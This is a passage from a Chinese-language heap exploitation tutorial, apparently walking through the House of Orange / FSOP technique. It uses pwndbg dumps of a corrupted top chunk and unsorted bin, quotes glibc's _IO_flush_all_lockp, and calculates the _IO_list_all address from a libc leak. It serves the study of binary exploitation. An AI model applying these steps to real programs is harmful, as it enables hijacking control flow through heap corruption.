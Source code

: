 在此之后，top指向了topchunk，大小改为了0xc01:

```bash
pwndbg> x/4gx top
0x602400: 0x0000000000000000 0x0000000000000c01
0x602410: 0x0000000000000000 0x0000000000000000
```

p2指向0x1000大小的内存，由于0x1000 > 0xc01，所以系统会通过mmap再请求一块内存页。同时，0x602400开始的top chunk被移入了unsorted bin中。

```bash
unsortedbin
all: 0x602400 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602400

pwndbg> x/2gx p2 - 0x10
0x623000: 0x0000000000000000 0x0000000000001011
```

至此，第一阶段获取unsortedbin已经完成了。在进行下一步之前需要理解FSOP的概念，当程序遇到一些原因退出时，会通过`_IO_flush_all_lockp`函数刷新IO，其流程主要是通过遍历IO_list_all的链表，每次遍历都会调用该FILE结构体中vtable表的`_IO_OVERFLOW`函数来刷新缓存。我们的目的也就是通过unsorted bin来改写IO_list_all指针，使其指向main_arena中的位置，并在对应的chain字段中赋值我们伪造的FILE结构体，最后通过调用该结构体中的vtable中的伪造函数来完成利用。以下是源码中遍历的部分：

```c
int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;

  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
    ...
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
     || (_IO_vtable_offset (fp) == 0
         && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
            > fp->_wide_data->_IO_write_base))
#endif
     )
    && _IO_OVERFLOW (fp, EOF) == EOF)   // 刷新
  result = EOF;

      
  fp = fp->_chain; // 遍历链表
    }
...
}
```

根据`_IO_list_all`距离unsorted bin的偏移为0x9a8可以计算出`_IO_list_all`的地址:

```bash
pwndbg> x/4gx top
0x602400: 0x0000000000000000 0x0000000000000be1
0x602410: 0x00007ffff7dd1b78 0x00007ffff7dd1b78
pwndbg> x/x 0x00007ffff7dd1b78 + 0x9a8
0x7ffff7dd2520 <_IO_list_all>: 0x00007ffff7dd2540
```
